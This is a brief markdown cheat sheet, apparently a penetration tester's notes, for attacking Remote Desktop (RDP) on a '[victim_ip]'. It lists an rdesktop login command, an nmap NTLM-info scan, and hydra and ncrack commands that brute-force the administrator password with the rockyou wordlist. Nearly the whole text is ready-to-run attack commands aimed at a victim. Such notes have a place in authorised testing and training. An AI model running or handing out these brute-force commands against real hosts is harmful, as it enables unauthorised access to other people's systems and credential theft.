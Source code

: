### rdesktop
rdesktop -g 1440x900 -u user_login -p user_pass [victim_ip]

### nmap
- nmap -p 3389 --script rdp-ntlm-info [victim_ip]

### bruteforce
- hydra -t 4  -l administrator -P /usr/share/wordlists/rockyou.txt rdp://[victim_ip]
- ncrack -vv --user administrator -P password-file.txt rdp://[victim_ip]

